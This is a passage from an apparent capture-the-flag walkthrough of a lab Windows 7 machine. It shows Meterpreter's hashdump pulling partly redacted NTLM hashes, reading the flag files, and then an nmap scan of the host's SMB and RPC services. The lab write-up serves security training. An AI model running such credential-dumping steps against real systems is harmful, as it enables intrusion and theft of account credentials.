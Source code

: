 Now that we have exploited the Virtual Machine and have achieved System level access, we can use the hashdump command to retrieve the users NTLM hashes:

Running Hashdump

```shell-session
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c156d5d<snip!>4d6e0943c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae93<snip!>d7e0c089c0:::
Ted:1001:aad3b435b51404eeaad3b435b51404ee:2e2618f266da8867<snip!>5c1309a5c:::
meterpreter > 
```

All that is left is to now retrieve the flags in the user's Home folders:

Collecting our flags!

```shell-session

meterpreter > cat C:/Users/Administrator/Desktop/root.txt
THM{bd6ea6c87<snip!>21081132744}
meterpreter > cat C:/Users/Ted/Desktop/user.txt
THM{217fa45e3<snip!>fc0be28e760} 
```

And that's all there is to it! You have successfully compromised Ted's PC.


### Practical
----

Let's proceed in a different way, to begin with, we can start with a scan:

```
PORT      STATE SERVICE      REASON  VERSION
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack Windows 7 Home Basic 7600 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        syn-ack Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack Microsoft Windows RPC
49158/tcp open  msrpc        syn-ack Microsoft Windows RPC
49159/tcp open  msrpc        syn-ack Microsoft Windows RPC
49160/tcp open  msrpc        syn-ack Microsoft Windows RPC
Service Info: Host: TEDS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| nbstat: NetBIOS name: TEDS-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:1e:31:74:f8:29 (unknown)
| Names:
|   TEDS-PC<00>          Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
|   TEDS-PC<20>          Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   02:1e:31:74:f8:29:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00
| smb2-security-mode:
|   2:1:0:
|_    Message signing enabled but not required
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 37908/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 17981/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58656/udp): CLEAN (Timeout)
```